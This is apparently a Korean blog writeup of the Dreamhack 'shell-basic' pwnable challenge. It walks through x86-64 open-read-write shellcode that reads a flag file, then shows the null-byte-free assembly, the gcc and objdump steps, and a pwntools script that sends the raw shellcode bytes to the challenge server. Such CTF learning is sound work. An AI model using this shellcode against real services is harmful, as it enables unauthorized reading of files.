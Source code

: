 ```yaml
---
title: "[pwn]shell-basic"
category: Pwnable
excerpt: "dreamhack shell-basic writeup"
toc:true
toc_label: "Table of Contents"
toc_sticky: true
toc_icon: "bars"
---
```


# shell-basic
처음 풀어보는 포너블 문제라 감도 안왔지만 튜토리얼로 어느정도는 따라갈 수 있었다. 

## assembly
~~~
__asm__(
	".global main\n"
        "main:\n"

	"xor rax,rax\n"
	"push rax\n"
        "mov rax,0x676E6F6F6F6F6F6F\n"
	"push rax\n"
        "mov rax,0x6C5F73695F656D61\n"
        "push rax\n"
	"mov rax,0x6E5F67616C662F63\n"
        "push rax\n"
	"mov rax,0x697361625F6C6C65\n"
        "push rax\n"
	"mov rax,0x68732F656D6F682F\n"
        "push rax\n"
	"mov rdi,rsp\n"
        "xor rsi,rsi\n"
        "xor rdx,rdx\n"
	"xor rax,rax\n"
	"add rax,0x2\n"
        "syscall\n"
	"\n"
        "mov rdi,rax\n"
	"mov rsi,rsp\n"
	"sub rsi,0x30\n"
        "xor rax,rax\n"
	"xor rdx,rdx\n"
	"add rdx,0x30\n"
        "syscall\n"
	"\n"
	"xor rdi,rdi\n"
	"add rdi,0x1\n"
	"xor rax,rax\n"
	"add rax,0x1\n"
        "syscall");
~~~
## 풀이
1. 환경 조사
**file shell_basic** 을 통해 환경을 먼저 조사한다. amd64 환경인 것을 알 수 있다.   
2. 파일경로 push
먼저 12번부터 16번까지는 stack에 file location을 string의 형태로 넣었다. 우연인지 파일 경로가 8byte에 맞아 떨어지므로 \0을 마지막에 넣어주기 위해 0을 먼저 push해주었다.   
이때 shell code에는 \x00이 포함되면 안되므로 mov rax,0x0보다는 xor rax,rax를 해주는 것이 맞다.  
3. system call
그 이후에는 SYS_OPEN의 변수에 맞게 넣어주면 된다. SYS_OPEN(const char \*filename,int flags,umode_t mode)에 flags=0, mode=null 을 넣어준 것이다.   
나머지 SYS_READ(unsigned int fd,char \*buf,size_t count), SYS_WRITE(unsigned int fd,char \*buf,size_t count) 함수의 parameter에 맞게 넣어주면 된다.  
4. gcc
**gcc -o orw orw.c -masm=intel** 명령어를 통해 컴파일한다.  
5. objdump
**objdump -d ./orw** 명령어로 opcode를 추출한다.   
<img width="605" alt="opcode" src="https://user-images.githubusercontent.com/45323902/154000690-ae589c0c-4fb5-46fa-823f-0cd0e2fd155d.png">  
여기서 마지막 syscall까지만 추출하면 된다.  
6. script
~~~
	from pwn import *

	p=remote('host1.dreamhack.games',22700)

	p.recvuntil(b'shellcode:')
	exploit=b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x48\x83\xc0\x02\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\x31\xc0\x48\x31\xd2\x48\x83\xc2\x30\x0f\x05\x48\x31\xff\x48\x83\xc7\x01\x48\x31\xc0\x48\x83\xc0\x01\x0f\x05'
	p.send(exploit)
	p.interactive()
~~~
이처럼 python script를 이용해 shellcode를 전달하면 함수 내부에서 shellcode를 메모리에 넣고 실행하게 된다.  
<img width="725" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154001147-99dffd0e-0229-4787-888c-b8560b906d1e.png">  
여기서 flag이후 다른 문자열이 나오는 이유는 buf size가 0x30인데 flag가 그보다 짧아 메모리에 있는 다른 내용까지 출력하게 된 것이다.
